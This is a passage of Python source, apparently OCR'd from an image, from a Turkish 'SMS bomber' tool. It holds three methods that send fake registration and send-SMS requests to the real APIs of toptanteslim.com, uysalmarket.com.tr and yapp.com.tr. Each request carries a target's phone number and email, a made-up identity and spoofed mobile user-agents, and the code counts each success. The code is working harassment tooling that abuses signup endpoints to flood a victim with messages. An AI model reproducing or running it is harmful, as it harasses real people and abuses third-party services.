     
    #toptanteslim.com
    def ToptanTeslim(self):
        try:
            url = "https://toptanteslim.com:443/Services/V2/MobilServis.aspx"
            headers = {"Content-Type": "application/x-www-form-urlencoded", "Accept": "application/json", "Mode": "no-cors", "U": "e-ticaret", "User-Agent": "eTicDev/1 CFNetwork/1335.0.3.4 Darwin/21.6.0", "Accept-Language": "tr-TR,tr;q=0.9", "Accept-Encoding": "gzip, deflate, br"}
            json={"ADRES": "ZXNlZGtm", "DIL": "tr_TR", "EPOSTA": self.mail, "EPOSTA_BILDIRIM": True, "ILCE": "BA\xc5\x9eAK\xc5\x9eEH\xc4\xb0R", "ISLEM": "KayitOl", "ISTEMCI": "BEABC9B2-A58F-3131-AF46-2FF404F79677", "KIMLIKNO": None, "KULLANICI_ADI": "Memati", "KULLANICI_SOYADI": "Bas", "PARA_BIRIMI": "TL", "PAROLA": "312C6383DE1465D08F635B6121C1F9B4", "POSTAKODU": "377777", "SEHIR": "\xc4\xb0STANBUL", "SEMT": "BA\xc5\x9eAK\xc5\x9eEH\xc4\xb0R MAH.", "SMS_BILDIRIM": True, "TELEFON": self.phone, "TICARI_UNVAN": "kdkd", "ULKE_ID": 1105, "VERGI_DAIRESI": "sjje", "VERGI_NU": ""}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["Durum"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> toptanteslim.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> toptanteslim.com")


    #uysalmarket.com.tr
    def Uysal(self):
        try:
            url = "https://api.uysalmarket.com.tr:443/api/mobile-users/send-register-sms"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "Accept-Encoding": "gzip, deflate, br", "User-Agent": "UM Uysal Online Market/1.0.15 (team.clevel.uysalmarket; build:1; iOS 15.8.0) Alamofire/5.4.1", "Accept-Language": "tr-TR;q=1.0, en-TR;q=0.9", "Connection": "close"}
            json={"phone_number": self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.uysalmarket.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.uysalmarket.com.tr")
    
    
    #yapp.com.tr
    def Yapp(self):
        try:
            url = "https://yapp.com.tr:443/api/mobile/v1/register"
            json={"app_version": "1.1.2", "code": "tr", "device_model": "iPhone9,4", "device_name": "", "device_type": "I", "device_version": "15.7.8", "email": self.mail, "firstname": "Memati", "is_allow_to_communication": "1", "language_id": "1", "lastname": "Bas", "phone_number": self.phone, "sms_code": ""}
            r = requests.post(url=url, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> yapp.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> yapp.com.tr")
    